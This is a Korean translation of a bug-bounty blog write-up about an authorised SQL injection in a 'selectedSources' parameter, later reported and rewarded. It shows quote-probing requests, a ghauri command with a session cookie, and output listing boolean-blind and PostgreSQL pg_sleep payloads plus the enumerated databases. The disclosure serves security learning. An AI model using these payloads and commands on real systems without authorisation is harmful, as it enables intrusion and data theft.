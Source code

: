 ```yaml
---
title: "첫 번째 유로 보상을 받은 방법"
description: ""
coverImage: "/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png"
date: 2024-06-19 21:16
ogImage: 
  url: /assets/img/2024-06-19-HowIGotMyFirstBounty_0.png
tag: Tech
originalTitle: "How I Got My First €€€€ Bounty"
link: "https://medium.com/@machiavellli/how-i-got-my-first-bounty-65ad8a1763de"
---
```



안녕하세요!

이 글에서는 어떻게 첫 번째 €€€€ 현상금을 발견했는지에 대해 공유하겠습니다.

처음에는 프로그램 범위가 다양한 서비스와 관련된 URL 집합이었기 때문에 기본 수동 현지 조사로 시작했습니다. 예를 들어:

- https://ex.admin.service.example.com/

<div class="content-ad"></div>

https://ex.service.service.example.com/

https://ex.abc.service.example.com/

또한, 프로그램은 역할을 테스트하기 위한 자격 증명을 제공했습니다.

그런 다음 Burp를 통해 트래픽을 프록시하여 일반 사용자처럼 정렬기능을 제외한 다른 기능을 테스트하면서 사이트를 찾아보았지만, 흥미로운 기능은 없었습니다. 어떤 JS 파일에서 이미 본 흥미로운 매개변수들이 있었다는 것을 알게 되었습니다.

<div class="content-ad"></div>

“SelectedSources, SelectedTemplateNames” 처음에는 아마도 데이터베이스에서 일부 데이터를 가져오는 것인줄 알았어요. 그래서 '“, ‘, \', 와 같은 특수 문자를 입력하여 ' 이상을 찾는 테스트를 해보기로 결정했어요. 하나의 따옴표를 입력하자 500 HTTP 상태 코드(내부 서버 오류)를 받았고, 또 다른 따옴표를 더 추가하니 200 HTTP 상태 코드(정상)를 받았어요.

```js
https://ex.service.example.com/history?selectedSources=someSources' > 500
```

```js
https://ex.service.example.com/history?selectedSources=someSources'' > 200
```

가끔은 역슬래시를 입력하여 확인하기도 해요. 그런데 여기서는 400 안 좋은 요청(Java 앱이었어요)을 받았어요.

<div class="content-ad"></div>

```plaintext
그 후에는 데이터베이스 버전을 추출하기 위해 sqlmap을 실행해 보았지만, 불행히도 sqlmap은 PostgreSQL이 DBMS임을 제외하고는 아무것도 추출하지 못했습니다. 그러나 포기하지 않고 대신 ghauri(https://github.com/r0oth3x49/ghauri.git)를 사용해 보았어요!

```js
ghauri -u "https://ex.service.example.com/history?selectedSources=someSources" --dbms=postgres --cookie="JSESSIONID=09326D266052B6B0F7E391B7BBD3A284" --dbs
```

Boom! 🚀
```

<div class="content-ad"></div>

```js
[09:22:32] [INFO] 대상 URL에 대한 연결 테스트 중
Ghauri는 저장된 세션에서 다음 인젝션 지점을 재개했습니다:
매개변수: selectedSources (GET)
    유형: 블라인드 기반 boolean
    제목: OR 블라인드 기반 - WHERE 또는 HAVING 절
    페이로드: selectedSources=someSources') OR 06690=6690 OR ('04586'='4586
    
    유형: 블라인드 기반 시간
    제목: PostgreSQL > 8.1 및 시간 기반 블라인드 (주석)
    페이로드: selectedSources=someSources') AND 4564=(SELECT 4564 FROM PG_SLEEP(6)) OR ('04586'='4586
    
[09:22:33] [INFO] PostgreSQL 테스트 중
[09:22:34] [INFO] PostgreSQL 확인 중
[09:22:34] [INFO] 백엔드 DBMS는 PostgreSQL입니다
[09:22:34] [INFO] 데이터베이스 이름 검색 중
[09:22:34] [INFO] 데이터베이스 수 검색 중
[09:22:51] [INFO] 검색된 결과: 3
[09:26:01] [INFO] 검색된 결과: information_schema
[09:27:51] [INFO] 검색된 결과: pg_catalog
[09:28:57] [INFO] 검색된 결과: public
사용 가능한 데이터베이스 [3]:
[*] pg_catalog
[*] public
[*] information_schema
```

제보했고, 딱 한 시간 만에 트리저가 보고서를 회사에 전달했고, 그들은 취약점을 인정했습니다.

<img src="/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png" />

다음 날, 회사에서 바운티를 수여했습니다.

<div class="content-ad"></div>

```markdown
![이미지](/assets/img/2024-06-19-HowIGotMyFirstBounty_1.png)

마지막으로, 이해하지 못하는 도구, 기술 또는 프로그램에만 집착하지 마세요. 그렇게 하면 탈진하게 될 거예요. 이미 인터넷은 취약점으로 가득 찬 곳이니까요.

Twitter/X: https://x.com/MachIaVellill

سَلامٌ
```